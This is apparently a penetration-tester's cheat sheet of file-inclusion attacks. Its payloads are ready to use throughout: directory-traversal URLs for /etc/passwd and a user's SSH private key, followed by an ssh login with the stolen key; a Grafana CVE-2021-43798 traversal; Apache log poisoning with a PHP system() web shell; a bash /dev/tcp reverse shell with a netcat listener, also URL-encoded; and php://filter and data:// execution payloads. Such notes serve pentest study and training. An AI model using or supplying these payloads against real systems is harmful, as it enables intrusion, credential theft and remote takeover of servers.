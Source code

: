 # Directory Traversal
- Show ect/passwd from php: http://targeturl.com/index.php?page=../../../../../../../../../etc/passwd
- Grabbing/Saving SSH RSA Private Key of Username: curl http://targeturl.com/index.php?page=../../../../../../../../../home/username/.ssh/id_rsa | 
    - Logging in with RSA key: ssh -i dt_key -p 2222 username@targeturl.com
- Windows - Grafana Vulnerability (CVE-2021-43798): http://ipaddress:3000/public/plugins/mysql/../../../../../../../../Users/Install.txt
- URL encoding: curl http://ipaddress/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

# Local File Inclusion (LFI) through Log Poisoning
Write executeable code to Apache's access.log file in /var/log/apache2/
- Add PHP snippet to user agent header of GET request: <?php echo system($_GET['cmd']); ?>
- Modify GET request with directory traversal to log file & cmd: GET /index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la
- Reverse Shell
    - Start netcat listener: nc -nvlp 4444
    - Mod GET cmd to bash reverse shell one-liner = bash -c "bash -i >& /dev/tcp/local.host.ip.address/4444 0>&1"
        - URL Encoded: GET index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Flocal.host.ip.address%2F4444%200%3E%261%22
- Alt to show sensitive file: GET /index.php?page=../../../../../../../../../xampp/htdocs/secret.txt&cmd=cat

## PHP Wrappers (Bypassing file inclusion filters)
Filter (To read contents)
- No encoding: curl http://targeturl.com/index.php?page=php://filter/resource=admin.php
- Base64 Encode: curl http://targeturl.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
- Alt Base64 encode: curl http://192.168.244.16/meteor/index.php?page=php://filter/convert.base64-encode/resource='/var/www/html/backup.php'
    - To decode Base64 : echo "BaSE64StR1nG0fL3tt3rsaNDnuMB34s!" | base64 -d
Data (Code Execution)
- curl "http://targetip/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"